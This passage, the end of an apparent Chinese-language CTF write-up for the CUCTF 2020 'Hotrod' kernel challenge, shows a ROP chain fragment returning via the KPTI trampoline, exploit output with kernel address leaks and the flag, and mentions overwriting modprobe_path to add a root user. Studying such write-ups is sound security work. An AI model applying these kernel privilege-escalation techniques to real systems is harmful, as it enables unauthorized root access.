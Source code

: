 与之类似的`sysret`需要的参数是`RCX->user_rip`；`R11 -> user_rflags`。

对应的ROP

```c
		*rop++ = kernel_addr + (0x200cb0 + 0x35);		//kpti_trampoline
		*rop++ = 0x0;
		*rop++ = 0x0;
		*rop++ = get_root;
		*rop++ = user_cs;
		*rop++ = user_rflags;
		*rop++ = user_sp;
		*rop++ = user_ss;
```

这种方式`get_root`是UserSpace的函数，但是发现该函数里无法执行`execve`族的函数，否则kernel崩溃。

但是能够`read`，拿到flag。

```
/ # ./exp 
[*] Saved state
[*] Opened device.
[*] Create A timer and delete it done!
[*] Leak timerfd_proc address: 0xffffffff98702a00
[*] Leak kernel_address: 0xffffffff98600000
[*] Leak heap_address: 0xffff8ea9c029ac00
[*] Handler started !
[*] Page Fualt At address: 0xdead0000
[*] Mapped address: 0xdead0000
[*] From address: 0x6e4840
CUCTF{u@f_thr0uGh_uNl0cKeD_10ctL_r@c3}
```

由于不能执行`execve`族函数spawn一个root的shell，但是可以利用root权限执行一些操作，最常规的思路就是覆盖`mdoprobe_path`，利用bash添加一个root权限的用户。



#### 参考

[CUCTF 2020 Kernel Exploitation: Hotrod](https://syst3mfailure.io/hotrod)

[The new way ioctl](https://lwn.net/Articles/119652/)

[UseFul Structure In Kernel Exploit](https://ptr-yudai.hatenablog.com/entry/2020/03/16/165628)

[高精度定时器（HRTIMER）的原理和实现](http://abcdxyzk.github.io/blog/2017/07/23/kernel-clock-6/)
